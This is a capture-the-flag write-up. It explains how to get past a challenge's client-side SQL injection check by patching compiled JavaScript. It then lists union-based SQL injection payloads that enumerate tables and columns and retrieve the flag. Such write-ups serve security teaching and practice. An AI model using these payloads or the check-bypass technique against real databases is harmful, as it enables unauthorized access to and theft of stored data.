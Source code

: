 King of Glory is a funny game. Our website has a list of players.
http://202.120.7.213:11181

Solve:
The goal here is to bypass client side sqli check, we need to patch the functionn.js to make it work for us to generate valid hash for our id.
In order to patch this, I opened 2 chrome tab, and debug the js being executed for:
Module.main(1);
and Module.main('q');

It turns out that the second query failed to pass the check in #7633 and #7659
after patch them with adding:
$13 = true;
$25 = true;

Module.main('q') will generate valid hash for us.
After that it is just simple sql injection.

I also created a nodejs file to make it easier.

node test.js "100 union select 1,CONCAT(table_name,0x20) FROM information_schema.tables -- "
gave us table name: fl4g

node test.js "100 union select 1,CONCAT(column_name,0x20) FROM information_schema.columns WHERE table_name = 'fl4g' -- "
gave us column name: hey

node test.js "100 union select 1,hey from fl4g -- "
gave us flag: flag{emScripten_is_Cut3_right?}
